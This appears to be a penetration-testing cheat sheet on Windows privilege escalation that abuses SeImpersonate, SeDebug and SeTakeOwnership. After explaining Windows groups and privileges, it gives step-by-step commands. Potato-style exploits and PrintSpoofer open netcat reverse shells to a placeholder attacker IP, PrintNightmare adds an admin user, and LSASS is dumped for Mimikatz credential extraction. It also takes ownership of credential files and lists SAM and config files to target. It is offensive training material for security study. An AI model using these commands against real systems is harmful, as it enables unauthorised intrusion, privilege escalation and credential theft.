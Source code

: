 # Windows User Privileges

In this section will cover:
- SeImpersonate and SeAssignPrimaryToken
- SeDebugPrivilege
- SeTakeOwnershipPrivilege

**Windows Privileges Overview**

Privileges in Windows are rights that an account can be granted to perform a variety of operations on the local system such as managing services, loading drivers, shutting down the system, debugging an application, and more. Privileges are different from access rights, which a system uses to grant or deny access to securable objects. User and group privileges are stored in a database and granted via an access token when a user logs on to a system. An account can have local privileges on a specific computer and different privileges on different systems if the account belongs to an Active Directory domain.

**Rights and Privileges in Windows**

Windows contains many groups that grant their members powerful rights and privileges. Many of these can be abused to escalate privileges on both a standalone Windows host and within an Active Directory domain environment. Ultimately, these may be used to gain Domain Admin, local administrator, or SYSTEM privileges on a Windows workstation, server, or Domain Controller (DC). Some of these groups are listed below.

| Group                       | Description |
|-----------------------------|-------------|
| Default Administrators      | Domain Admins and Enterprise Admins are "super" groups. |
| Server Operators            | Members can modify services, access SMB shares, and backup files. |
| Backup Operators            | Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs. |
| Print Operators             | Members can log on to DCs locally and "trick" Windows into loading a malicious driver. |
| Hyper-V Administrators      | If there are virtual DCs, any virtualization admins, such as members of Hyper-V Administrators, should be considered Domain Admins. |
| Account Operators           | Members can modify non-protected accounts and groups in the domain. |
| Remote Desktop Users        | Members are not given any useful permissions by default but are often granted additional rights such as Allow Login Through Remote Desktop Services and can move laterally using the RDP protocol. |
| Remote Management Users     | Members can log on to DCs with PSRemoting (This group is sometimes added to the local remote management group on non-DCs). |
| Group Policy Creator Owners | Members can create new GPOs but would need to be delegated additional permissions to link GPOs to a container such as a domain or OU. |
| Schema Admins               | Members can modify the Active Directory schema structure and backdoor any to-be-created Group/GPO by adding a compromised account to the default object ACL. |
| DNS Admins                  | Members can load a DLL on a DC, but do not have the necessary permissions to restart the DNS server. They can load a malicious DLL and wait for a reboot as a persistence mechanism. Loading a DLL will often result in the service crashing. A more reliable way to exploit this group is to create a WPAD record. |

**User Rights Assignment**

Depending on group membership, and other factors such as privileges assigned via domain and local Group Policy, users can have various rights assigned to their account.

| Setting Constant              | Setting Name                                        | Standard Assignment                                | Description |
|--------------------------------|-----------------------------------------------------|----------------------------------------------------|-------------|
| SeNetworkLogonRight            | Access this computer from the network               | Administrators, Authenticated Users                | Determines which users can connect to the device from the network. This is required by network protocols such as SMB, NetBIOS, CIFS, and COM+. |
| SeRemoteInteractiveLogonRight  | Allow log on through Remote Desktop Services        | Administrators, Remote Desktop Users               | This policy setting determines which users or groups can access the login screen of a remote device through a Remote Desktop Services connection. A user can establish a Remote Desktop Services connection to a particular server but not be able to log on to the console of that same server. |
| SeBackupPrivilege              | Back up files and directories                       | Administrators                                     | This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system. |
| SeSecurityPrivilege            | Manage auditing and security log                    | Administrators                                     | This policy setting determines which users can specify object access audit options for individual resources such as files, Active Directory objects, and registry keys. These objects specify their system access control lists (SACL). A user assigned this user right can also view and clear the Security log in Event Viewer. |
| SeTakeOwnershipPrivilege       | Take ownership of files or other objects            | Administrators                                     | This policy setting determines which users can take ownership of any securable object in the device, including Active Directory objects, NTFS files and folders, printers, registry keys, services, processes, and threads. |
| SeDebugPrivilege               | Debug programs                                      | Administrators                                     | This policy setting determines which users can attach to or open any process, even a process they do not own. Developers who are debugging their applications do not need this user right. Developers who are debugging new system components need this user right. This user right provides access to sensitive and critical operating system components. |
| SeImpersonatePrivilege         | Impersonate a client after authentication           | Administrators, Local Service, Network Service, Service | This policy setting determines which programs are allowed to impersonate a user or another specified account and act on behalf of the user. |
| SeLoadDriverPrivilege          | Load and unload device drivers                      | Administrators                                     | This policy setting determines which users can dynamically load and unload device drivers. This user right is not required if a signed driver for the new hardware already exists in the driver.cab file on the device. Device drivers run as highly privileged code. |
| SeRestorePrivilege             | Restore files and directories                       | Administrators                                     | This security setting determines which users can bypass file, directory, registry, and other persistent object permissions when they restore backed up files and directories. It determines which users can set valid security principals as the owner of an object. |

**List all privileges**
````
> whoami /priv
````

## SeImpersonate and SeAssignPrimaryToken

These tokens are not considered secure resources, as they are just locations within memory that could be brute-forced by users that cannot read memory. To utilize the token, the SeImpersonate privilege is needed. It is only given to administrative accounts, and in most cases, can be removed during system hardening.

Legitimate programs may utilize another process's token to escalate from Administrator to Local System, which has additional privileges. Processes generally do this by making a call to the WinLogon process to get a SYSTEM token, then executing itself with that token placing it within the SYSTEM space. Attackers often abuse this privilege in the "Potato style" privescs - where a service account can SeImpersonate, but not obtain full SYSTEM level privileges. Essentially, the Potato attack tricks a process running as SYSTEM to connect to their process, which hands over the token to be used.

**SeImpersonate - JuicyPotato**
````
# List Privs
whoami /priv
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled

# Exploitation with Juicy Potato

## Step 1 - Netcat listening
$ sudo nc -lnvp <Our_Port>

## Step 2 - Execute Juicy Potato
> c:\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\nc.exe <Our_IP> <Our_Port> -e cmd.exe" -t *
````

**PrintSpoofer & RoguePotato & PrintNightmare**
````
# Method 1 - PrintSpoofer
## Step 1 - Verify if spooler service is running
> Get-Service Spooler

## Step 2 - Netcat listening
$ sudo nc -lnvp <Our_Port>

## Step 3 - Execute PrintSpoofer
> c:\PrintSpoofer.exe -c "c:\nc.exe <Our_IP> <Our_Port> -e cmd"


# Method 2 - RoguePotato
## Step 1 - Netcat listening
$ sudo nc -lnvp <Our_Port>

## Step 2 - Execute RoguePotato
> c:\RoguePotato.exe -r <Our_IP> -e "c:\nc.exe <Our_IP> <Our_Port> -e cmd" -l 9999


# Method 3 - PrintNightmare (CVE-2021-1675)
## Step 1 - Import the printNightmare.ps1
> Import-Module .\printnightmare.ps1

## Step 2 - Create a new user in localgroup administrators 
> Invoke-Nightmare -NewUser "<new_user>" -NewPassword "<new_password>" -DriverName "PrintME"

## Step 3 - Verify if new user is in localgroup administrators
> net localgroup administrators
````

## SeDebugPrivilege

To run a particular application or service or assist with troubleshooting, a user might be assigned the SeDebugPrivilege instead of adding the account into the administrators group. This privilege can be assigned via local or domain group policy, under Computer Settings > Windows Settings > Security Settings. By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. This right may be assigned to developers who need to debug new system components as part of their day-to-day job. 

**List Privilege**
````
> whoami /priv
SeDebugPrivilege                          Debug programs                                                     Disabled
````

**Dump Lsass Process**
````
# Method 1 - Procdump

## Step 1 - Dump Lsass Process
> procdump.exe -accepteula -ma lsass.exe lsass.dmp

## Step 2 - Copy to our machine or alternative use Mimikatz

## Mimikatz
> mimikatz.exe
# log
# sekurlsa::minidump lsass.dmp
# sekurlsa::logonpasswords


# Method 2 - TaskManager

## Step 1 - Open the taskmanager
## Step 2 - Search for Lsass process and Right-Click
## Step 3 - Create Dump File
## Step 4 - Copy to our directory
> cp <file_lsass.dmp> .
````

**Code Execution**
````
# Code Execution

## Step 1 - List the tasklist and search for the PID of a process with SYSTEM, for example winlogon.exe.
> tasklist 

## Step 2 - Execute debugpriv.ps1
> ipmo .\debugpriv.ps1; ImpersonateFromParentPid -ppid <PID> -command "C:\windows\system32\cmd.exe"


# Reverse Shell
> ipmo .\debugpriv.ps1; ImpersonateFromParentPid -ppid <PID> -command "C:\windows\system32\cmd.exe" -cmdargs "/c powershell.exe -e revshell"
````


## SeTakeOwnershipPrivilege

SeTakeOwnershipPrivilege grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns WRITE_OWNER rights over an object, meaning the user can change the owner within the object's security descriptor. Administrators are assigned this privilege by default. While it is rare to encounter a standard user account with this privilege, we may encounter a service account that, for example, is tasked with running backup jobs and VSS snapshots assigned this privilege. It may also be assigned a few others such as SeBackupPrivilege, SeRestorePrivilege, and SeSecurityPrivilege to control this account's privileges at a more granular level and not granting the account full local admin rights.

**Reviewing Current User Privileges**
````
> whoami /priv
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
````
Enabling SeTakeOwnershipPrivilege
````
> Import-Module .\Enable-Privilege.ps1
> .\EnableAllTokenPrivs.ps1
> whoami /priv
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
````
**Choosing a Target File**

Next, choose a target file and confirm the current ownership. For our purposes, we'll target an interesting file found on a file share. It is common to encounter file shares with Public and Private directories with subdirectories set up by department. Given a user's role in the company, they can often access specific files/directories.
````
# Check the Owner
> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}

If you cannot see who the owner of the file is, we can see who the owner of the directory is.

> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
````
**Taking Ownership of the File**
````
# Taking Ownership of the File
> takeown /f 'C:\Department Shares\Private\IT\cred.txt'

# Confirming Ownership Changed
> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

# Modifying the File ACL
> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
````
**Files of Interest**
- c:\inetpub\wwwwroot\web.config
- %WINDIR%\repair\sam
- %WINDIR%\repair\system
- %WINDIR%\repair\software, %WINDIR%\repair\security
- %WINDIR%\system32\config\SecEvent.Evt
- %WINDIR%\system32\config\default.sav
- %WINDIR%\system32\config\security.sav
- %WINDIR%\system32\config\software.sav
- %WINDIR%\system32\config\system.sav

We may also come across .kdbx KeePass database files, OneNote notebooks, files such as passwords.*, pass.*, creds.*, scripts, other configuration files, virtual hard drive files, and more that we can target to extract sensitive information from to elevate our privileges and further our access.
